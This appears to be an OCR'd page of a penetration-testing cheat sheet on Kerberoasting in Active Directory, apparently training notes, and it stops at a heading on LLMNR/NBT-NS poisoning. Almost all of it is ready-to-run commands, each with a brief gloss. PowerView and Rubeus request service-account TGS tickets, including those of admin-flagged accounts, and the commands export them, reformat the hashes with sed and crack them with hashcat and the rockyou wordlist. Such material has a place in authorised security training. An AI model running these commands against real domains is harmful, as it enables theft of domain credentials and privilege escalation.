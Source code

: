 `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`

> Used to modify the `crack_file` for `Hashcat` from a Linux-based host.

`cat sqldev_tgs_hashcat`

> Used to view the prepared hash from a Linux-based host.

`hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt`

> Used to crack the prepared Kerberos ticket hash (`sqldev_tgs_hashcat`) using a wordlist (`rockyou.txt`) from a Linux-based host.

`Import-Module .\PowerView.ps1 Get-DomainUser * -spn | select samaccountname`

> Uses PowerView tool to extract `TGS Tickets` . Performed from a Windows-based host.

`Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat`

> PowerView tool used to download/request the TGS ticket of a specific ticket and automatically format it for `Hashcat` from a Windows-based host.

`Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation`

> Exports all TGS tickets to a `.CSV` file (`ilfreight_tgs.csv`) from a Windows-based host.

`cat .\ilfreight_tgs.csv`

> Used to view the contents of the .csv file from a Windows-based host.

`.\Rubeus.exe`

> Used to view the options and functionality possible with the tool `Rubeus`. Performed from a Windows-based host.

`.\Rubeus.exe kerberoast /stats`

> Used to check the kerberoast stats (`/stats`) within the target Windows domain from a Windows-based host.

`.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap`

> Used to request/download TGS tickets for accounts with the `admin` count set to `1` then formats the output in an easy to view & crack manner (`/nowrap`) . Performed from a Windows-based host.

`.\Rubeus.exe kerberoast /user:testspn /nowrap`

> Used to request/download a TGS ticket for a specific user (`/user:testspn`) the formats the output in an easy to view & crack manner (`/nowrap`). Performed from a Windows-based host.

`Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes`

> PowerView tool used to check the `msDS-SupportedEncryptionType` attribute associated with a specific user account (`testspn`). Performed from a Windows-based host.

`hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt`

> Used to attempt to crack the ticket hash using a wordlist (`rockyou.txt`) from a Linux-based host .

**LLMNR/NTB-NS Poisoning**
